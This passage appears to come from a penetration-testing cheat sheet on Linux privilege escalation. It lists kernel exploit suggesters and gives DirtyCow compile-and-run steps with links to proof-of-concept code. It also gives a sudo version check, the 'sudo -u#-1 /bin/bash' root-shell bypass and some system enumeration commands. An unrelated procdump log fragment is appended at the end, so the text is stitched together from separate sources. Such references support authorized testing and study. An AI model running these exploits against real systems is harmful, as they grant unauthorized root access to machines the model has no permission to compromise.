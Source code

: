 Tools that could help to search for kernel exploits are:

[linux-exploit-suggester.sh](https://github.com/mzet-/linux-exploit-suggester)\
[linux-exploit-suggester2.pl](https://github.com/jondonas/linux-exploit-suggester-2)\
[linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py) (execute IN victim,only checks exploits for kernel 2.x)

Always **search the kernel version in Google**, maybe your kernel version is written in some kernel exploit and then you will be sure that this exploit is valid.

### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

```bash
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```

### Sudo version

Based on the vulnerable sudo versions that appear in:

```bash
searchsploit sudo
```

You can check if the sudo version is vulnerable using this grep.

```bash
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

#### sudo < v1.28

From @sickrov

```
sudo -u#-1 /bin/bash
```

### Dmesg signature verification failed

Check **smasher2 box of HTB** for an **example** of how this vuln could be exploited

```bash
dmesg 2>/dev/null | grep "signature"
```

### More system enumeration

```bash
date 2>/dev/null #Date
(df -h || lsblk) #System stats
lscpu #CPU info
lpstat -a 2>/dev/null #Printers info
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714